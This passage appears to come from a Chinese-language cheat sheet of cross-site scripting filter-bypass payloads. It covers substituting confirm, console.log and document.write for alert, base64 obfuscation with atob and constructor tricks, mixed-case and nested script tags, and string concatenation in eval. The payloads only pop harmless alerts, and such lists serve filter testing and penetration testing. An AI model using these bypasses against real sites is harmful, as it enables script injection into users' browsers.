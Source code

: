 ##### 0x02. confirm 替换

```
<script>confirm(/xss/)</script>
```

##### 0x03. console.log 替换

```
<script>console.log(3)</script>
```

##### 0x04. document.write 替换

```
<script>document.write(1)</script>
```

##### 0x05. base64 绕过

```
<img src=x onerror="Function`a${atob`YWxlcnQoMSk=`}```">
<img src=x onerror="``.constructor.constructor`a${atob`YWxlcnQoMSk=`}```">
```

#### 关键词置空绕过

##### 0x01. 大小写绕过

```
<script>alert(/xss/)</script>
```

可以转换为

```
<ScRiPt>AlErT(/xss/)</sCrIpT>
```

##### 0x02. 嵌套绕过

嵌套<script>和</script>突破

```
<script>alert(/xss/)</script>
```

可以转换为

```
<sc<script>ript>alert(/xss/)</sc</script>ript>
```

#### 函数拼接

##### 0x01. eval

```
<img src="x" onerror="eval('al'+'ert(1)')">
```

